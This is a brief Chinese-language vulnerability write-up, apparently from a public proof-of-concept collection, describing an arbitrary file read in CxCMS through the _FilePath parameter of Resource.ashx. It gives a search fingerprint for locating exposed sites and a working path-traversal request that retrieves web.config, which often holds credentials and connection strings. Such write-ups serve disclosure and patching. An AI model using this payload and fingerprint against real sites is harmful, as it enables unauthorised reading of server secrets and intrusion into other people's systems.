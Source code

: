 # CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>CxCMS </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Powered by CxCms"</a-checkbox></br>

## 漏洞复现

关键字确认CMS

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635923532626-6348c269-8042-4b83-9296-aac9516db18e.png)

验证POC

```php
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635923602690-86a13443-0ef9-4788-8ec6-fad2b601ff7e.png)